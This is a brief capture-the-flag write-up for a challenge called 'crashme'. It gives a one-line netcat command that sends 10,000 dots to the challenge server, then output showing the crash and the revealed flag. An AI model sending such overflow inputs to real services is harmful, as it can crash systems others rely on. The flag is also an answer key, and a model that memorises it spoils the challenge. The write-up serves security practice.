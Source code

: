 # crashme - exploitation

```text
echo `printf '.%.0s' {1..10000}` | nc 0.cloud.chals.io 17289
```

## Output

```text
Give me some data:
You entered ...............................................................
flag{segfaults_a_hackers_best_friend}
```
